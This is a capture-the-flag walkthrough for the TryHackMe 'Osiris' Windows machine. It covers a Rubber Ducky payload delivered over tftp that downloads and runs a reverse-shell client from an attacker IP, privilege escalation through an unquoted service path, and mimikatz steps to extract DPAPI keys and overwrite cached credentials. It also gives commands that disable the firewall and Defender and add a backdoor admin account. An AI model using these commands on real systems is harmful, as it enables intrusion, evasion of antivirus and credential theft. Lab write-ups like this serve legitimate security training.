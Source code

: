 # Osiris - WIP

https://tryhackme.com/room/osiris

Rated "INSANE"

## Flag 1 - Initial Foothold

The machine won't respond to scans, but as the description says, tftp is open. This first requires that you have a tftp client, on the attack box install using `sudo apt install tftp`, then connect using `tftp <targetip>`, however first we need a script.

To exploit rubberducky, I used the script below. This uses [reverse_ssh](https://github.com/NHAS/reverse_ssh), my revshell of choice, which is typically ignored by windows defender and other protection mechanisms.

```
DELAY 1000
GUI r
DELAY 200
STRING powershell -W hidden
ENTER
DELAY 3000
STRING Invoke-WebRequest http://10.10.80.36:1234/client.exe -outfile c:\windows\temp\c.exe
ENTER
DELAY 3000
STRING c:\windows\temp\c.exe
ENTER
```

I put the above in a file named `script`, then connected over tftp and ran `put script` to put it in place. For this to work, a local webserver on port 1234 allows client.exe to be downloaded, and I got a shell connection in seconds.

On the machine as `alcrez` the first flag is in their desktop folder. 

## Flag 2 - Privesc to System

Downloading further files (e.g. obfuscated winpeas or other exploit tools) can be done with `bitsadmin.exe /transfer /Download /priority Foreground http://10.10.80.36:1234/w.exe c:\windows\temp\w.exe`, or using tftp if that floats your boat.

To privesc to system, a few things can be picked up from local enumeration:

- there is a folder at c:\scripts, that contains a vbs file and a cmd file. The vbs file seems to do nothing, but appears to relate to a local service (details next), while the cmd file downloads a zip file to c:\temp, extracts it, then force copies its contents to `c:\program files\ivpn client`.
- there is a local service named `ivpn service` that executes the ivpn client. notably this service uses an unquoted path, and so if you could get an exe named ivpn into program files or into the ivpn folder, you could hijack the service.
- the service runs as system, but as the user alcrez you have the rights to restart the service.

Presumably the vbs script that seems to do nothing triggers whatever is needed to run the extract and copy operation. This can be tested by putting any arbitary file into c:\temp, running the vbs, and observing that file is now inside the program files vpn folder. The path to privesc is thus: create a valid service binary that will give you a rev shell and avoids defender, put that in c:\temp, run the vbs script and finally restart the service to trigger the binary.

To exploit this, I used bitsadmin to download a service binary (specifically my own [unquoted](https://github.com/ChrisPritchard/unquoted)) that would run my reverse shell payload. I placed this in c:\temp with the name IVPN.exe, then ran `c:\scripts\update.vbs`. Finally I restarted the service with `restart-service -displayname "ivpn*"`.

> Note, I found this a bit finicky. Sometimes it would work, sometimes the update.vbs wouldn't trigger an update of the files (maybe due to file locks etc), or the service wouldnt start. One way to diagnose is to check with `Get-EventLog -LogName "Application" -Newest 3 -EntryType "Error" -Source ".NET Runtime" -ErrorAction SilentlyContinue | Select -ExpandProperty Message` which might print a helpful stacktrace. Otherwise, just terminating and renewing the osiris machine was the best option.

This triggered the revshell and I got a session as NT AUTHORITY/SYSTEM. The second flag was in the user chajoh's desktop folder.

## Flag 3 - DPAPI

The final flag is in a keepass database under documents for the user chajoh. This DB is set so the user can access it using their logon information (e.g. no password), which means it can't be opened unless we have an interactive session as the user chajoh.

The problem is there is no active session for chajoh to hijack, so we would need their password to login. We can extract an ntlm hash, but its unbreakable. We can force change the password using our admin session, but that would invalidate the keepass encryption meaning we would no longer be able to open the db. The intended solution is to use the ntlm hash of the user plus the domain DPAPI master key (extracted from the domain controller in prior rooms, Ra or Ra2) to generate a new key for keepass so it can be opened properly.

The steps below require mimikatz: grab this [from here](https://github.com/gentilkiwi/mimikatz/releases), extract on the attacker machine, and then use x64/mimikatz.exe in your endeavours.

Steps:

1. Get the dpapi backup key from [Ra](https://tryhackme.com/room/ra) or [Ra 2](https://tryhackme.com/room/ra2): Once getting system/admin on these machines, get and run mimikatz and then `lsadump::backupkeys /system:localhost /export`. Exfiltrate the pfx file.
2. Enable remote desktop access to the Osiris machine: `Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0` and add everyone to remote desktop users: `net localgroup "Remote Desktop Users" Everyone /add`. You also need to disable the firewall: `netsh advfirewall set allprofiles state off`
3. Osiris will block mimikatz, so you need to disable defender, There are a few ways to do this, but the simplest for me was to create a new admin user, login and disable it manually through windows security: `net user aquinas P@ssw0rd! /add` and `net localgroup Administrators aquinas /add` (also add to remote desktop users). Once connected over remote desktop, I disabled defender in `windows security > virus & threat protection > virus & threat protection settings > real-time protection`
4. Get mimikatz onto Osiris and replace cherjoh's password in the ntlm cache: `lsadump::cache /user:chajoh /password:NewPassword1234 /Kiwi`
5. You can then connect over remote desktop, using `windcorp.thm\chajoh` and the new password.
